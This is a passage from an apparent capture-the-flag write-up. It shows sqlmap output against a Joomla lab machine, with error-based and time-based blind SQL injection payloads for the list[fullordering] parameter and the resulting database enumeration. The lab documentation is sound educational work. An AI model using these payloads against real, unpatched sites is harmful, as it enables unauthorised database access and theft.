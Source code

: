 ```bash
[21:08:17] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:08:17] [WARNING] reflective value(s) found and filtering out
[21:08:29] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
...
[21:22:49] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)'
[21:23:02] [INFO] GET parameter 'list[fullordering]' appears to be 'MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)' injectable 
GET parameter 'list[fullordering]' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 2299 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 8098 FROM(SELECT COUNT(*),CONCAT(0x71786a6b71,(SELECT (ELT(8098=8098,1))),0x71706b6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9257 FROM (SELECT(SLEEP(5)))iXhJ)
---
[21:23:24] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[21:23:28] [INFO] fetching database names
[21:23:30] [INFO] retrieved: 'information_schema'
[21:23:31] [INFO] retrieved: 'joomla'
[21:23:32] [INFO] retrieved: 'mysql'
[21:23:33] [INFO] retrieved: 'performance_schema'
[21:23:34] [INFO] retrieved: 'test'
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test

[21:23:34] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2261 times
[21:23:34] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.162.223'

[*] ending @ 21:23:34 /2020-11-27/
```

This eventually identified valid injection techniques which could be used to further refine the `sqlmap` command. It also confirmed that the joomla database was in fact called `joomla`.

With this in mind, I was able to refine my `sqlmap` command to attempt to map the tables in the `joomla` database. Again, the output was truncated for space. While this identified many tables, I've included only a few of the most interesting.
